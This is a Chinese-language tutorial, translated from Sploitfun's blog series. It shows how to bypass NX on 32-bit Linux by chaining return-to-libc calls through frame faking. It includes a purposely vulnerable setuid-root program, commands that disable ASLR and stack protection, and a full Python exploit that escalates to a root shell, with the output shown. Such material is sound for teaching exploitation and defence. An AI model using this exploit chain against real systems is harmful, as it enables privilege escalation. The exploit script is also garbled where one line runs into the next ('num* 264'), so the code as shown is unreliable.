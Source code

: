 CSysSec注： 本系列文章译自安全自由工作者Sploitfun的漏洞利用系列博客，从经典栈缓冲区漏洞利用堆漏洞利用，循序渐进，是初学者不可多得的好材料，本系列所有文章涉及的源码可以在这里找到。CSysSec计划在原基础上不断添加相关漏洞利用技术以及相应的Mitigation方法，欢迎推荐或自荐文章。  
转载本文请务必注明，文章出处：《[Linux(X86)漏洞利用系列-Return-to-libc链接绕过NX](http://www.csyssec.org/20170101/chainingreturntolibc)》与作者信息：CSysSec出品  

VM Setup: Ubuntu 12.04(x86) 

## 什么是Return-to-libc链接

在前文中可以看出，攻击者需要调用多个libc函数才能成功利用漏洞。一种链接libc函数的简单方法就是将不同libc函数依次放在栈中。但由于函数参数的原因，这是不可能的。现在你可能还不明白，没关系，继续往下读就好。  

漏洞代码:  

``` c
//vuln.c
#include <stdio.h>
#include <string.h>
int main(int argc, char* argv[]) {
 char buf[256];
 seteuid(getuid()); /* Temporarily drop privileges */
 strcpy(buf,argv[1]);
 printf("%s",buf);
 fflush(stdout);
 return 0;
}
```
注意: 上述代码和前文中的(vuln_priv.c)一样。  

编译命令:

``` bash
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -fno-stack-protector -g -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```
正如前文所说，链接seteuid,system和exit函数能允许我们利用漏洞代码”vuln”。但并没有这么简单直接，主要在于下面这两个问题：  

1.攻击者需要将两个libc函数参数或者其中一个libc函数参数与另一个libc函数地址放在栈的同一位置。显然这是不可能的(如下图所示)  
2.seteuid_arg必须为0.由于我们的缓冲区溢出是由strcpy操作引起的，0变成了一个不好的字符。比如，strcpy函数不会将0之后的字符拷贝到栈中。  
![](../pictures/chainreturntolibc1.jpeg)  


我们来看看如何解决上述两个问题。  

问题1: 为解决这个问题，Nergal在 [phrack](http://phrack.org/issues/58/4.html) 中提出了两个聪明的技术  

* ESP上升(ESP Lifting)
* 帧欺骗(Frame fakeing)
由于ESP lifting技术要求二进制文件在编译的时候不能设置帧指针(-fomit-frame-pointer)，这里我们只谈帧欺骗技术。 由于我们的二进制文件(vuln)含有帧指针，只好采用帧欺骗技术。     

## 什么是帧欺骗

这项技术不去覆盖返回地址，而是直接覆盖libc函数地址(这个例子中的seteuid函数)，我们采用”leave ret”指令来覆盖。 这让攻击者有机会将函数参数存放在栈中而不必有任何交叉，而且能调用相应的libc函数，并不会带来任何问题。  

栈布局 如下面栈布局所示，帧指针攻击者溢出栈并成功链接libc函数: seteuid, system与exit：  
![](../pictures/chainreturntolibc2.jpeg)   



上图中红色强调的部分是”leave ret”指令调用其上方libc函数的返回地址。举个例子，第一条”leave ret”指令(位于栈地址0xbffff1fc处)调用seteuid()，第二条”leave ret”指令(位于栈地址0xbffff20c处)调用system()，第三条”leave ret”指令(位于栈地址0xbffff21c处)调用exit().  

## leave ret指令是如何调用其上方libc函数的 

为了回答这个问题，首先我们要了解”leave”指令。一条”leave”指令可以翻译成:  

```
mov ebp,esp            //esp = ebp
pop ebp                //ebp = *esp
```
我们来反汇编main()函数，以便更进一步了解“leave ret”指令

``` 
(gdb) disassemble main
Dump of assembler code for function main:
  ...
  0x0804851c <+88>: leave                  //mov ebp, esp; pop ebp;
  0x0804851d <+89>: ret                    //return
End of assembler dump.
(gdb)
```
Main尾声代码:  

如上述栈布局所示，在main函数尾声代码执行之前，攻击者已经溢出栈并用fake_ebp0(0xbffff204)覆盖了main函数的ebp，以及利用”leave ret”指令地址(0x0804851c)覆盖了其返回地址。 现在当CPU要执行main函数的尾声代码时，EIP指向text地址0x0804851c（”leave ret”)。在执行过程中，会发生下面的事情：  

* ‘leave’修改了下面的寄存器
 - esp = ebp = 0xbffff1f8
 - ebp = 0xbffff204, esp = 0xbffff1fc
* ‘ret’执行”leave ret”指令(位于栈地址0xbffff1fc处)

seteuid: 现在EIP又重新指向text地址0x0804851c(“leave ret”). 在执行过程中，会发生下面的事情：  

* ‘leave’修改了下面的寄存器
 - esp = ebp = 0xbffff204
 - ebp = 0xbffff214, esp =0xbffff208
* ‘ret’执行seteuis()(位于栈地址0xbffff208). 为了能成功调用seteuid,seteuid_arg必须放在栈地址0xbffff210的偏移量8处(比如seteuid_add）
* 调用seteuid()后，”leave ret”指令(位于栈地址0xbffff20c处)开始执行

可以从上面的栈布局看出，执行上述过程，栈已经按照攻击者的意图设置好，system和exit函数都能得到执行。  

问题2: 在我们的例子中，seteuid必须为0. 但0已经变成一个不好的字符，如何将0写在栈地址0xbffff210处呢？Nergal的同一篇文中讲了一个简单的方法。在链接libc相关函数时，前几个调用必须是strcp函数(其将一个NULL字节拷贝到seteuid_arg在栈中的位置)。  

注意: 但不幸地是我的libc.so.6中strcpy函数的地址是0xb7ea6200。 libc函数地址本身包含一个NULL字节(不好的字符!)。 因此，strcpy不能成功地利用漏洞代码。sprintf（函数地址是0xb7e6e8d0)可以用来替代strcpy。使用sprintf时，NULL字节被拷贝到seteuid_arg在栈中的位置。  

因此链接下面的libc函数可以解决上面提到的两个问题并成功获取root shell:  

sprintf|sprintf|sprintf|sprintf|seteuid|system|exit  
漏洞利用代码:  

``` python
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call
fake_ebp0 = 0xbffff1a0
fake_ebp1 = 0xbffff1b8
fake_ebp2 = 0xbffff1d0
fake_ebp3 = 0xbffff1e8
fake_ebp4 = 0xbffff204
fake_ebp5 = 0xbffff214
fake_ebp6 = 0xbffff224
fake_ebp7 = 0xbffff234
leave_ret = 0x0804851c
sprintf_addr = 0xb7e6e8d0
seteuid_addr = 0xb7f09720
system_addr = 0xb7e61060
exit_addr = 0xb7e54be0
sprintf_arg1 = 0xbffff210
sprintf_arg2 = 0x80485f0
sprintf_arg3 = 0xbffff23c
system_arg = 0x804829d
exit_arg = 0xffffffff
#endianess convertion
def conv(num):
 return struct.pack("<I",num* 264 
buf += conv(fake_ebp0) 
buf += conv(leave_ret) 
#Below four stack frames are for sprintf (to setup seteuid arg )
buf += conv(fake_ebp1) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3) 
buf += conv(fake_ebp2) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
sprintf_arg1 += 1
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3) 
buf += conv(fake_ebp3) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
sprintf_arg1 += 1
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3) 
buf += conv(fake_ebp4) 
buf += conv(sprintf_addr) 
buf += conv(leave_ret) 
sprintf_arg1 += 1
buf += conv(sprintf_arg1) 
buf += conv(sprintf_arg2) 
buf += conv(sprintf_arg3)
#Dummy - To avoid null byte in fake_ebp4. 
buf += "X" * 4 
#Below stack frame is for seteuid
buf += conv(fake_ebp5) 
buf += conv(seteuid_addr) 
buf += conv(leave_ret) 
#Dummy - This arg is zero'd by above four sprintf calls
buf += "Y" * 4 
#Below stack frame is for system
buf += conv(fake_ebp6) 
buf += conv(system_addr) 
buf += conv(leave_ret) 
buf += conv(system_arg) 
#Below stack frame is for exit
buf += conv(fake_ebp7) 
buf += conv(exit_addr) 
buf += conv(leave_ret) 
buf += conv(exit_arg) 
print "Calling vulnerable program"
call(["./vuln", buf])
```
执行上面的漏洞利用代码就可以拿到root shell!!!

``` bash
$ python exp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����������������\��������������\��������������\�������������\��� �������AAAA0�������Ѕ
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```
现在已经成功绕过NX,下一篇文章让我们来看看如果绕过ASLR.  